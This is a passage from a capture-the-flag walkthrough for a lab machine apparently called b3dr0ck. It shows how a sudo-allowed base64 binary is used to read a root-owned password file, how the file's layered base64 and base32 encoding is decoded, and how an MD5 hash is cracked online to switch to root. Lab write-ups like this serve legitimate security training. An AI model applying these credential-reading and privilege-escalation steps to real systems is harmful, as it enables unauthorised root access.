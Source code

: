![404aed7143f57004b139e9830392e53f.png](/resources/b692b9a5b67a441a98d37cdacded4bf6.png)

Here, we'll also find the next flag:

```sh
ls -lah
cat fred.txt
```

![29d32c20b7eb561a9172303a52c04afa.png](/resources/d96ad0510cb2435da1451fe08aa2f198.png)

### \[-] root\@b3dr0ck

Checking our `sudo` privileges reveals something interesting:

```sh
sudo -l
```

![b927f973dfbdbf1b169d4fe8fcf95e3c.png](/resources/c43db9aaa6fc4d5491329f9a1db67155.png)

When we run the `sudo /usr/bin/base64 /root/pass.txt` command we can use the pipe character (`|`) to send the output back to `base64` but with the `-d` flag to decode what we just encoded:

```sh
sudo /usr/bin/base64 /root/pass.txt | base64 -d
```

The output of this file is also encoded; this time in base32:

![8949697d45feaf8ff96257f901272a79.png](/resources/ca7883d026464742ac53efef918dc9b5.png)

We can pipe the output once more to `base32` with the `-d` flag to decode the output:

```sh
sudo /usr/bin/base64 /root/pass.txt | base64 -d | base32 -d
```

![0d2199cc4db960da21cdd964c2690f22.png](/resources/915f9770efef4d0c813cb8a19ba98622.png)

The output is encoded again in base64, so we'll pipe it once more to `base64 -d`:

```sh
sudo /usr/bin/base64 /root/pass.txt | base64 -d | base32 -d | base64 -d
```

Now, we have an MD5 hash. We can copy and paste this hash into a tool like [CrackStation](https://crackstation.net/):

![9a899a2008f6d88664b441ee1ea900ba.png](/resources/151e6b4eba3347e2b391d8d9663868dc.png)

![24a4b6eab6a105a293b0626548f6cb26.png](/resources/3f9aa99f99224144adffb239864b7c85.png)

After cracking the MD5 hash, we can use the plaintext as the password to switch over to the `root` user:

```sh
su root
```

![a63fc50ac42a7fb9f165a969a6cda45b.png](/resources/7d505c7bacc0443b990303416cadd47f.png)

The last flag will be in `/root/root.txt`:

```sh
cat /root/root.txt
```

![8b19f4646f050e414cf50ce0f253247a.png](/resources/d41317b68771472b8857a78e13308e29.png)
